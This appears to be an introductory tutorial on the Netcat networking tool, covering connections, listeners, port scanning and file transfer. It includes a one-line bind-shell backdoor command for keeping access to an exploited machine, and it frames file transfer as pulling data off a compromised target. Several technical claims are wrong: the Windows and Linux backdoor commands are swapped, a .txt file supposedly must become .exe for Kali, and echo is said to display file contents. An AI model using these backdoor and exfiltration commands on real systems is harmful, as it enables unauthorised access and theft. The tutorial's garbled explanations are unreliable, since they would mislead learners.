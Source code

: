 ### Introduction to Netcat
`Netcat` is a network analysis tool developed to be used by security specialists and also hackers to analyze a network in traffic.
It is considered a `Swiss-army` knife in information technology.

At its early stages, netcat was developed to open up UDP/TCP connections between two machines from any port you desire.
Over time, it has been improved and now it is used for port scanning, port forwarding, file transfer, and also remote administration. This article will help us understand how Netcat performs these roles.

Netcat can further be used as a back-end device that can be used or driven by other programs or scripts.
It is also a must-have tool for pen-tester since it is essential for network debugging and investigation.

#### Executing Commands on Netcat
Netcat is only available in the command-line interface. You will be able to access Netcat on the `Command Line` on Windows and `Bash Terminal` on Linux. Below is the common Netcat Syntax.

`nc [options][target_ip address][port]`

Let's now discuss some actions that can be executed via Netcat.

1. **Help**

For a start you might want to know the commands you will interact with within your Netcat journey.
* Run the `nc -help` or `nc -h` command to list all the commands available in Netcat as shown below.

![Help Command Output](/engineering-education/introduction-to-netcat/help.png)

2. **Connecting Server**

To achieve this, you will have to access a port where a particular service is running and execute the code with the syntax linking it with the Netcat commands. The syntax is as shown below.
* ` nc [IP Address] [Port Number]` - both for the target machine.

example: `nc 192.168.234.128 8080`

For our example above, we have connected the internet accessing service via port number 8080 with the IP address 192.168.234.128.

3. **Connecting 2 Machines**

To do this, we will have to set one device as the `Initiator` and the other device as the `listener`. For our case, we will use Kali Linux as the Initiator and the Windows Machine as the Listener.

**Creating Listener** - First, let us create the listening Machine which in our case is Windows 10. To successfully do so, run the following Netcat command.

`nc -lvp 4444`

From the above command:
* `l` - Setting up Listening Mode
* `v` - Setting Verbose
* `p` - Setting up Port Number.

**Creating Initiator** - Creating the Initiator is simpler as you will only be required to run the Ip address of the Listening machine followed by the port number. The syntax is as shown below.

`nc 192.168.234.128 8080`

4. **Creating a Backdoor**

After getting a Meterpreter shell back or successfully exploiting a device, you will want to maintain your access so you may come back to the target device at any time. That is where Netcat comes in. With Netcat, you can run a one-line command to achieve so. 

Creating a backdoor for a Linux and Windows OS target is different.

For the case of Windows: `nc -l -p 21 -e /bin/bash`

For Linux: `nc -l -p 21 -e hack.exe`

5. **Saving Output**

Information Gathering is one of the important fundamentals in Penetration testing to save the information gathered. To save the output from Netcat, we will use the parameter `-o` followed by the location to save the output as shown below.

`nc 192.168.234.128 8080 -v -o /Desktop/Output.txt`

#### Modes of running Netcat  
We have two common modes of running Netcat. 

1. **Client Mode/ Initiator Mode**
- As we have discussed earlier, the Client or Initiator Mode always initiates the connection with the listener. 

2. **Listener Mode**
- To set up the Listener, we will require the `Port` Number. The syntax will also contain the `listening` and `verbose` commands.

#### Uses of Netcat
1. **Port Scanning**

For every hacker or penetration tester, before performing any attack, you need to spot weak links or vulnerabilities in a target system. There are several ways to achieve this and one of them is `port scanning`.

Port scanning is the act of running a network analysis on a system to determine open or closed ports on a specific target machine. This can be done by specifying the IP address of the target machine and setting up some parameters as seen in the syntax below.
```
    $ nc -v -w2 -z [target_ip] 20-40
```
From the example above, the parameters are set to perform the following actions.

* `-v` **(Verbose)** -  To give detailed information about the port being scanned.
* `-z` - Prevents sending data to any TCP and this enables for fast scanning of ports.
* `-i` - It insets a delay between each port probe to limit scanning speed.

Even though Netcat can be used for Port Scanning, it is however not the top-ranked tool for port scanning. The most recommended tool is [NMAP](https://www.section.io/engineering-education/nmap-network-scanner/).


2. **Data/ File Transfer**

After successfully exploiting a target machine and you have control over it. You will need Netcat for the post-exploitation phase. This is where you remotely run commands on the target machine using your local machine. For some cases, you might want to transfer files or some data into the local machine which is mostly a Kali Linux machine since it is the recommended OS for Penetrating testing. To learn more on [Kali Linux](https://www.section.io/engineering-education/getting-started-with-kali-linux/) go through the article linked.

Let's now see how we can achieve that via Netcat.

**Example:**

Let us take a sample text named `test.txt` which in this case is in our targets device storage. To transfer the file into our local machine, run the Netcat command below on the target device either remotely or physically. This is to purposefully set up a listener on the target device.
```
    $ nc –l –p 21 >test.txt
```
From the above,

You can see that we have specified the port number 21 by preceding the `-p` command which is used to initialize the port number.

We have set up the machine to the listening mode by using the `-l` command.

After successfully setting up a listener, now it's time to set up an Initiator on our local machine.
We can do so by running the following command.
```
    $ nc destination 21 <test.txt
```

As you have noted by now, we have set up client mode to connect to any listener open on port 21. We have to state the `destination` of our initiator by providing the listening port number and the name of the file to transfer.

To show the output of what is contained in the File, run the `type` command on Windows and the `echo` command on Kali Linux.
```
    $ type test.txt
```
For Kali Linux, you will have to convert the .txt file to executable format `.exe` since Kali Linux cannot run Windows files with the `.txt` extension.
```
    $ echo test.exe
```

#### Conclusion
From what we have learned, we can agree that Netcat is a must-have tool for a penetration tester. It is easy to learn and its tools allow for the execution of a wide range of actions as mentioned in the tutorial and therefore recommended for Penetration Testing.

#### Summary
In this article, we have gone through the following 
1. Introduction to Netcat.
2. Executiong commands.
2. Modes of running Netcat.
3. General Netcat commands.
4. Uses of Netcat.